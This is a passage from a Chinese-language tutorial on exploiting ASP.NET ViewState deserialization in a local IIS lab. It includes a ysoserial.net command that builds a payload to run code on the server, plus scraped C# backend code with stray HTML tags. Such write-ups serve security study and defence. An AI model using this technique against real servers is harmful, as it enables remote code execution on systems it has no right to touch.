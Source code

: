 我们在 IIS 中托管该应用程序，并使用 burpsuite 拦截应用程序的流量：

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBTMIXFdYEtxcHkXKQlmFajJicFqhfs50GNrLlYayxicQv8FicdlTlicYbAUzVM9RRcXhic3REps5GErLRA/640?wx_fmt=png)拦截应用程序流量

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBTMIXFdYEtxcHkXKQlmFajJhprib0BsSicaRhImaL96AUBxORqyulGG5rqSg4ASCkFCQ37ricFSVQpDg/640?wx_fmt=png)ViewState MAC 被禁用

在上面的截图中可以看到，在更改注册表项后，ViewState MAC 已被禁用。

现在，我们可以使用 ysoserial.net 创建一个序列化 payload ，如下所示：

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBTMIXFdYEtxcHkXKQlmFajJcbicJRO5wwcJ71Sqp0EibZphpb2CUS3h5mENn3gZr9nTJAI73S42HAZw/640?wx_fmt=png)Ysoserial payload 的生成

上面用来生成 payload 的命令是：

```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "echo 123 > C:\Windows\temp\test.txt" > payload_when_mac_disabled
```

在 HTTP POST 请求中的 ViewState 参数中使用上述生成的 payload，我们可以观察 payload 的执行如下：

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBTMIXFdYEtxcHkXKQlmFajJfm4n1eS0C0yWl3bTAYS9QCjVia3v8UM56UR2rEV6nSicSibJW8ag2GAJQ/640?wx_fmt=png)ViewState 参数的值被使用 ysoserial 生成的 payload 替换

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBTMIXFdYEtxcHkXKQlmFajJ4zKNJXMTicZibo6AkGicR7CMAadH8sRbV0o7g4PbSUey0UIEy2g9icJTww/640?wx_fmt=png)文件 test.txt 被使用内容 “123” 创建

案例 2：当从 HTTP 请求中删除 ViewState 时
------------------------------

在本案例中，我们将介绍开发人员试图将 ViewState 从 HTTP 请求中删除的场景。为了演示，我们重用了上述示例中的前端代码，并将后端代码修改为：

后端代码：

```
using System;<br style="box-sizing: border-box;">using System.Collections.Generic;<br style="box-sizing: border-box;">using System.Web;<br style="box-sizing: border-box;">using System.Web.UI;<br style="box-sizing: border-box;">using System.Web.UI.WebControls;<br style="box-sizing: border-box;">using System.Text.RegularExpressions;<br style="box-sizing: border-box;">using System.Text;<br style="box-sizing: border-box;">using System.IO;<br style="box-sizing: border-box;"><br style="box-sizing: border-box;">public class BasePage : System.Web.UI.Page<br style="box-sizing: border-box;">{<br style="box-sizing: border-box;">  protected override void Render(HtmlTextWriter writer)<br style="box-sizing: border-box;">  {<br style="box-sizing: border-box;">   StringBuilder sb = new StringBuilder();<br style="box-sizing: border-box;">   StringWriter sw = new StringWriter(sb);<br style="box-sizing: border-box;">   HtmlTextWriter hWriter = new HtmlTextWriter(sw);<br style="box-sizing: border-box;">   base.Render(hWriter);<br style="box-sizing: border-box;">   string html = sb.ToString();<br style="box-sizing: border-box;">   html = Regex.Replace(html, “<input[^>]*id=\”(__VIEWSTATE)\”[^>]*>”, string.Empty, RegexOptions.IgnoreCase);<br style="box-sizing: border-box;">   writer.Write(html);<br style="box-sizing: border-box;">  }<br style="box-sizing: border-box;">}<br style="box-sizing: border-box;"><br style="box-sizing: border-box;">public partial class hello : BasePage<br style="box-sizing: border-box;">{<br style="box-sizing: border-box;">  protected void Page_Load(object sender, EventArgs e)<br style="box-sizing: border-box;">  {<br style="box-sizing: border-box;">  }<br style="box-sizing: border-box;">  <br style="box-sizing: border-box;">  protected void Button1_Click(object sender, EventArgs e)<br style="box-sizing: border-box;">  {<br style="box-sizing: border-box;">   Label1.Text = TextArea1.Text.ToString();<br style="box-sizing: border-box;">  }<br style="box-sizing: border-box;">}<br style="box-sizing: border-box;">
```
